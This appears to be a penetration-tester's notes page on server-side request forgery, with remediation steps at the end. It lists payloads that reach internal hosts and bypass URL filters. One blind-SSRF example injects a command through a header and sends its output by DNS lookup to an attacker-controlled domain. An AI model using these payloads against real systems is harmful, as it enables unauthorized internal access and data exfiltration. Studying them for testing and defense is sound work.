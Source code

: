 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Server-Side Request Forgery

Normally when an application seems to take internal URLs or network resources that may be able to be modified. This allows an attacker to cause the server-side application to make requests to an unintended location.

We can find a typical example of this vulnerability as follows:

* A web application allows users to retrieve images by specifying a URL

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$url/fetch?url=http://$url/image.jpg
```
{% endcode %}

***

* If vulnerable we could replace the reference to the image location with an internal URL

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$url/fetch?url=http://localhost/admin
```
{% endcode %}

***

* This also could work to reach an IP that is only reachable from the internal network

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$url/fetch?url=http://$internalIP:$port/admin
```
{% endcode %}

{% hint style="info" %}
If we don't know the exact host in the internal network we scan it with the [_BurpSuite_](../tools-and-utilities.md#burp-suite) _Intruder_ option by changing the target IP. Ex: `192.168.0.X` we could iterate the `X` value until found a valid host response&#x20;
{% endhint %}

***

* &#x20;In some cases there are white-listed or black-listed values. We can have different approaches to bypass this verifications:

{% tabs %}
{% tab title="Case 1" %}
When blocking IP inputs such as _localhost_ or _127.0.0.1_,  we can register our own domain name that resolves to _127.0.0.1_

* BurpSuite offers the domain _spoofed.burpcollaborator.net_ for this purpose
* If we obtain a _421_ or _500_ error it could mean its working but we need other payload
{% endtab %}

{% tab title="Case 2" %}
When blocking IP inputs such as _localhost_ or _127.0.0.1_,  we can use a representation of the IP such as:

* An integer representation like _2130706433_
* An integer representation like _017700000001_
* A shorthand like _127.1_
{% endtab %}

{% tab title="Case 3" %}
Exploiting inconsistencies in URL parsing by checking if arbitrary values are acepted, for example:

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">http://$username@$expected-host       #Embeded credentials
http://$evil-host#$expected-host      #Indicate a fragment
http://$expected-host.$evil-host      #Abuse DNS hierarchy
http://$evil-host#@$expected-host     #Combine techniques
<strong>http://$evil-host%25%32%33@$expected-host/$target #And combine URL encoding
</strong></code></pre>
{% endtab %}

{% tab title="Case 4" %}
We can abuse Open Redirection to bypass some SSRF validations

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#We found a route that makes a rediretion in the URL
/$vuln$point/$query?path=http://$redirection

<strong># This triggers the open redirection on the parameter which we could abuse on a SSRF vulnerable point that validatesthe supplied URL is on the domain
</strong>https://$url/fetch?url=/$vuln$point/$query?path=http://$payload
</code></pre>
{% endtab %}
{% endtabs %}

## <mark style="color:orange;">Blind SSRF</mark>

When the response a back-end request to a supplied URL is not returned in the application's front-end response. To detect them is  recommended  to use out-of-band techniques, to trigger an HTTP request to a domain that we control and monitoring the interactions with that system. For example:

* A site uses software which fetches the URL specified in the _Referer_ header when a page is loaded

{% code overflow="wrap" lineNumbers="true" %}
```bash
#We change the header and make the site fetch our domain
Referer: http://$ourDomain
```
{% endcode %}

***

* We can use [_BurpSuite_](../tools-and-utilities.md#burp-suite) _Collaborator_ as our controlled domain to check the interactions
  * Add the target to the scope
  * Go to the _Extensions_ tab and add/enable the _Collaborator Everywhere_ extension
  * Intercept and forward a petition with every check payload
  * In the _Issues_ section of the _Target_ tab check if any header was detected to be vulnerable

***

* For example, we found the _User-Agent_ is vulnerable to a RCE

{% code overflow="wrap" lineNumbers="true" %}
```bash
# We change the header and make the site fetch our domain
User-Agent: /usr/bin/nslookup $(whoami).<OurDomain> #This could change depending on the vulnerability
Referer: http://192.168.0.1:8080  # We set the internal point to reach, and we could use intruder to find a host and port that answer
```
{% endcode %}

{% hint style="info" %}
After this we can go to Collaborator tab and hit and click _Poll now_. We should see a DNS interaction where the answer to th RCE should appear in the DNS subdomain
{% endhint %}

## <mark style="color:blue;">Remediation Actions for SSRF</mark>

* Avoid using user-supplied URLs directly in server-side HTTP requests
* Only allow URLs that match a strict allowlist (specific domains or IP ranges)
* Block internal network access from the server if not required
* Disable unnecessary URL schemes such as _file://_, _gopher://_, _php://_ or _ftp://_
* Use DNS pinning or validation to ensure domain resolution isn’t bypassed to internal IPs
* Avoid redirects if unnecessary
* Deploy firewall rules to limit which hosts and ports your application can reach externally
